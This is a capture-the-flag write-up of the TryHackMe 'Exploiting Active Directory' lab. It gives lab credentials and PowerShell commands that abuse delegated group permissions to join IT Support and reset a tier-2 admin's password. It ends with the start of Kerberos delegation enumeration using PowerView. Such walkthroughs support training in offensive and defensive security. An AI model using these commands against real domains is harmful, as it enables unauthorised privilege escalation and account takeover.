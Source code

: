 ![Exploiting AD](https://assets.tryhackme.com/room-banners/attacking-ad.png)

## Exploiting Active Directory

### Exploiting Permission Delegation 

``` Your credentials have been generated: Username: laura.wood Password: C6j4BhcW ```


Bloodhound shows misconfiguration in AD allowing Domain Users to add themselves to IT Support, which in turn delegates permission to reset a t2 admin password

![bloodhound](/TryHackMe/Exploiting%20AD%20Task%202.png)

```posh
#Add our user to IT Support
Add-ADGroupMember "IT Support" -Members "laura.wood"
```

```posh
#Verify user has been successfully added
Get-ADGroupMember -Identity "IT Support" 
```

Run ``` gpupdate /force ```  then reconnect to the remote session to ensure permissions propogate

```posh
#Reset password for a user in 
$Password = ConvertTo-SecureString "Password1" -AsPlainText -Force
Set-ADAccountPassword -Identity "t2_caroline.dawson" -Reset -NewPassword $Password
```

RDP from AttackBox to locate the flag

``` THM{Permission.Delegation.FTW!} ```

### Exploiting Kerberos Delegation

```console
PS C:\Users\laura.wood> Import-Module C:\Tools\PowerView.ps1 
PS C:\Users\laura.wood> Get-NetUser -TrustedToAuth | select name, msds-allowedtodelegateto 

name       msds-allowedtodelegateto
----       ------------------------
IIS Server {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc, http/THMSERVER1} 
```
